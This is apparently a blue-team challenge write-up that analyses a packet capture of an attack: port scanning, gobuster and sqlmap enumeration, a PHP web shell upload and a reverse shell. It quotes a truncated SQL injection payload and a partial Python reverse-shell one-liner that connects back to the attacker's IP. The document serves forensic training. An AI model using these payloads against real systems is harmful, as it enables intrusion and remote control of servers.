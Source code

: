 # 🕵️‍♂️ BTLO Challenge – Network Analysis: Web Shell

🔗 **Challenge link:** [Blueteam Labs Online](https://blueteamlabs.online/home/challenge/network-analysis-web-shell-d4d3a2821b)  
📂 **Category:** Network Analysis  
🗂️ **File analyzed:** `webshell.pcap`

---

## 🎯 Objective
Analyze the PCAP file to investigate malicious activity, identify attacker behavior, and detect if a reverse shell was established.

---

## 📝 Findings

| Category              | Observation |
|------------------------|-------------|
| **Attacker IP**        | `10.251.96.4` |
| **Victim IP**          | `10.251.96.5` |
| **Scanning method**    | TCP SYN Scan |
| **Enumeration tools**  | `gobuster 3.0.1`, `sqlmap 1.4.7` |
| **Uploaded webshell**  | `dbfunctions.php` |
| **Webshell parameter** | `cmd` |
| **First command**      | `id` |
| **Reverse shell**      | Port `4422` connected back to attacker |
| **Payload used**       | Python reverse shell |

---

## 🔍 Analysis Steps

1. **Port Scanning**  
   - Observed SYN packets to multiple ports.  
   - Only port **22 (SSH)** was open, others returned RST.  

2. **Web Enumeration**  
   - Detected traffic from `gobuster/3.0.1`.  
   - Discovered hidden pages: `/login.php`, `/browse.php`, etc.  

3. **SQL Injection Attempts**  
   - Example payload:  
     ```
     /?QLuT=8454 AND 1=1 UNION ALL SELECT ...
     ```
   - Detected use of **sqlmap** for automation.  

4. **Web Shell Upload**  
   - File uploaded: `dbfunctions.php`  
   - Parameter: `cmd` allowed system command execution.  

5. **Reverse Shell Execution**  
   - Payload executed:  
     ```python
     python -c 'import socket,subprocess,os; s=socket.socket(...); s.connect(("10.251.96.4",4422)); ...'
     ```
   - Attacker gained interactive shell (`/bin/sh -i`).  

---

## 🛡️ Lessons Learned

- Always monitor **unusual ports** (e.g., `4422`) for reverse shells.  
- Web servers must sanitize inputs to prevent **SQL injection**.  
- Uploaded files should be restricted to avoid **webshells**.  
- Network monitoring tools (Wireshark, Suricata, Zeek) are essential in detecting these attacks.  

---

## 🧰 Skills Demonstrated

- Network forensic analysis with **Wireshark**  
- Detecting **port scans** and **enumeration tools**  
- Identifying **SQL injection attempts**  
- Investigating **webshell traffic**  
- Detecting **reverse shells**  
- Writing structured **incident reports**

---

✍️ **Author:** [Your Name]  
🔗 **Portfolio:** [github.com/yourusername](https://github.com/yourusername)

